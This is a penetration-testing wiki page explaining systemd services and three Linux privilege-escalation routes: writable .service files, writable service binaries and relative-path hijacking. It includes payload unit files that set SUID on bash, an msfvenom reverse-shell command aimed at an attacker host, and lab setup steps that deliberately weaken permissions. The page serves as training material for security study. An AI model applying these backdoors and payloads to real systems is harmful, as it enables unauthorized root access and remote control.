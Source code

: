 # Services

## Theory

A Linux systems provide a variety of system services (such as process management, login, syslog, cron, etc.) and network services (such as remote login, e-mail, printers, web hosting, data storage, file transfer, domain name resolution (using DNS), dynamic IP address assignment (using DHCP), and much more).

Technically, a service is a process or group of processes (commonly known as daemons) that run continuously in the background, waiting to be used or performing some tasks.

Linux supports different ways to manage (start, stop, restart, enable auto-start at system boot, etc.) services, typically through a process or service manager. Most if not all modern Linux distributions now use the same process manager: `systemd`.

### Service Configuration Files <a href="#service-configuration-files" id="service-configuration-files"></a>

Service configuration files in Linux have the extension **.service**, which is a service unit that describes how to manage a service or application on the server. This will include how to **start** or **stop** the service, under what circumstances it should start automatically, and related software dependency and ordering information.

To understand systemd units and units files, read this [article](https://www.digitalocean.com/community/tutorials/understanding-systemd-units-and-unit-files).

The following table provides a complete list of SysV runlevels and their corresponding systemd targets:

| Runlevel | Target Units                                  | Description                               |
| -------- | --------------------------------------------- | ----------------------------------------- |
| 0        | `runlevel0.target, poweroff.target`           | Shut down and power off the system.       |
| 1        | `runlevel1.target, rescue.target`             | Set up a rescue shell.                    |
| 2,3,4    | `runlevel[2,3,4].target`, `multi-user.target` | Set up a non-graphical multi-user system. |
| 5        | `runlevel5.target`, `graphical.target`        | Set up a graphical multi-user system.     |
| 6        | `runlevel6.target`, `reboot.target`           | Shut down and reboot the system.          |

{% hint style="info" %}
Reference: [https://access.redhat.com/documentation/en-us/red\_hat\_enterprise\_linux/8/html/configuring\_basic\_system\_settings/working-with-systemd-targets\_configuring-basic-system-settings](https://access.redhat.com/documentation/en-us/red\_hat\_enterprise\_linux/8/html/configuring\_basic\_system\_settings/working-with-systemd-targets\_configuring-basic-system-settings)
{% endhint %}

## Practice

### Writable .service files <a href="#privilege-escalation-via-writable-_service_-files" id="privilege-escalation-via-writable-_service_-files"></a>

{% tabs %}
{% tab title="Privilege Escalation" %}
Check if you can write a **.service** file. If you can, you **could modify** it to **run** your **malicious code**. However, you will need to **start**, **stop** or **restart** the service, which can be accomplished if you have **SUDO/SUID permissions** in `systemctl` or you can wait for the machine to reboot.

To detect that we can write about a service, we can do:

```bash
ls -l /etc/systemd/ # If we have write permissions on the "system" directory, we can write services.
ls -l /etc/systemd/system
find /etc/systemd/system -writable 2>/dev/null
```

If we have permissions on a .service file, we can overwrite it with the following content:

```shell
[Service]
Type=oneshot
ExecStart=/bin/sh -c "<COMMAND>" # We can also run a script: /tmp/shell.sh
[Install]
WantedBy=multi-user.target
```

If we do not want to alter the structure of the service configuration file, we can change the user and group that runs that service, adding the command to execute:

```shell
[Unit]
Description=asdasd
After=network.target

[Service]
User=www-data # Change to "root".
Group=www-data # Change to "root".
WorkingDirectory=/var/www/html
ExecStart=/bin/chmod +s /bin/bash # Payload
ExecReload=/bin/chmod +s /bin/bash # Payloa
ExecStop=/bin/chmod +s /bin/bash # Payloa

[Install]
WantedBy=multi-user.target
```

Finally, you have to start or restart the service for it to work.
{% endtab %}

{% tab title="Lab Setup" %}
```bash
sudo nvim /etc/systemd/system/insecure.service
```

{% code title="insecure.service" %}
```shell
[Unit]
Description=Insecure service config

[Service]
Type=basic
ExecStart=/usr/bin/apache2

[Install]
WantedBy=multi-user.target
```
{% endcode %}

Add write permissions to the **.service** file:

```bash
sudo chmod o+w /ec/systemd/system/insecure.servic
```
{% endtab %}
{% endtabs %}

### Writable service binaries

{% tabs %}
{% tab title="Privilege Escalation" %}
Keep in mid that if you have **write permissions over binaries being executed by services**, you can change them for backdoors so when the services get re-executed the backdoors will be executed.

```bash
find /etc/systemd/system -exec grep -r -i "ExecStart" 2>/dev/null {} +
```

Then we should check if those binaries or scripts have write permissions.

If a binary (which is executed by a service) has write permissions, we generate our backdoor with **msfvenom**:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf -o shell
```

We transfer the backdoor, overwrite the binary (make a backup before) and then re-initialize the service.
{% endtab %}

{% tab title="Lab Setup" %}
```
sudo nvim /etc/systemd/system/writable_binary.service
```

```bash
[Unit]
Description=Insecure service config

[Service]
Type=basic
ExecStart=/usr/bin/apache2

[Install]
WantedBy=multi-user.target
```

```bash
sudo cp /usr/bin/apache2 /usr/bin/apache2.bak # Backup
chmod o+w /usr/bin/apache2
```
{% endtab %}
{% endtabs %}

### systemd PATH - Relative Paths

You can see the PATH used by **systemd** with:

```bash
systemctl show-environment
```

If you find that you can **write** in any of the folders of the path you may be able to **escalate privileges**. You need to search for **relative paths being used on service configurations** files like:

```bash
ExecStart=faraday-server
ExecStart=/bin/sh -ec 'ifup --allow=hotplug %I; ifquery --state %I'
ExecStop=/bin/sh "uptux-vuln-bin3 -stuff -hello"
```

Then, create a **executable** with the **same name as the relative path binary** inside the systemd PATH folder you can write, and when the service is asked to execute the vulnerable action (**Start**, **Stop**, **Reload**), your **backdoor will be executed** (unprivileged users usually cannot start/stop services but check if you can using `sudo -l`).
